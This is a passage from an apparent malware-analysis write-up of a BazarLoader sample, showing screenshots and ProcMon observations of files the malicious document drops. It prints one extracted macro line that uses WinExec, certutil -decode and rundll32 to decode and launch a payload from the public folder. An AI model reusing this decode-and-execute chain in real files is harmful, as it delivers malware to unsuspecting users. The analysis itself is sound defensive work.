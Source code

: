 ![image 9](/assets/img/posts/bazar_loader/9.png)

```
call('Kernel32', 'WinExec', 'JCJ', 'cmd.exe /c certutil -decode %PUBLIC%\133542.oop %PUBLIC%\133542.gof && rundll32.exe %PUBLIC%\105011.gof,DF')
```


### ProcMon

now `enable content` while running procmon to monitor all the file activity 

Here is the first file `.oop`

![image 10](/assets/img/posts/bazar_loader/10.png)

And the second one `.xlsb`

![image 11](/assets/img/posts/bazar_loader/11.png)

And the process create to decode it 

![image 12](/assets/img/posts/bazar_loader/12.png)
